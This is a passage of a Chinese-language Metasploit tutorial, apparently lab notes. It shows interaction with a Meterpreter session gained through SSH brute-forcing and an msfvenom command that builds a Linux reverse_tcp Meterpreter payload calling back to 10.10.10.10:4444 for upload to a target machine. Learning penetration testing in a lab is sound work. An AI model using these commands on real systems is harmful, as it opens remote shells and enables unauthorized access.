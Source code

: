 

**进入会话**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo 
Computer     : 172.16.100.100
OS           : Ubuntu 24.04 (Linux 6.8.0-53-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 2...
```



**结束所有会话**

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -K 
[*] Killing all sessions...
[*] 10.10.10.10 - SSH session 1 closed.
[*] 10.10.10.10 - Meterpreter session 2 closed.
```



### msfvenom

**msfvenom 生成 payload**

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o payload
```



**上传到靶机**

![image-20250226151157008](./images/Metasploit.assets/image-20250226151157008.png)
